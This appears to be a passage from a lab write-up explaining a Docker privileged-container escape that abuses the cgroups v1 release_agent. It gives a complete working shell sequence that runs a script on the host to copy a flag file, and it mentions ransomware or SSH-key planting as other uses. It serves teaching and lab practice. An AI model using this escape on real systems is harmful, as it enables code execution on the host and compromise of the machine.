 Docker uses control groups as one of its main "Linux primitives," so a host running cgroups v1 will enable containers to use release agents. If the container is unprivileged, it can use release agents within the container's namespace only. However, if the container is privileged, an attacker can achieve [remote code execution on the host itself](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes).

Since this OS uses cgroups v1 in its hybrid model, it will enable these custom release agent behaviors. We can successfully run the cgroups exploit via the privileged container:

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/exploit" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /exploit
echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
chmod a+x /exploit
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

This is a blind attack, which means we won't get any explicit feedback. If successful it would execute the script at `/exploit`. In this case, it will copy the contents of a file (`flag.txt`) from a user's home folder on the host system to a target location in the container.

However, the biggest flaw in the release agent model is that an attacker can author it to perform arbitrary commands. Instead of exfiltration, this could remove or encrypt (ransomware) sensitive files on the host. It could also be used to transfer files to the host, such as the attacker's SSH keys.

If you were trying to recreate this lab in your own VM, you would likely want an environment that supported this hybrid, so you could achieve the release-agent exploit. Of course, newer Linux distros have moved away from v1 entirely, and therefore no longer support cgroups release agents. If this were Ubuntu 21.10 or higher, that exploit would fail.

In any case, all things taken into consideration, we can lay out a rough workflow for this system:

![](/assets/2024-09-04/docker-architecture-flow.png)
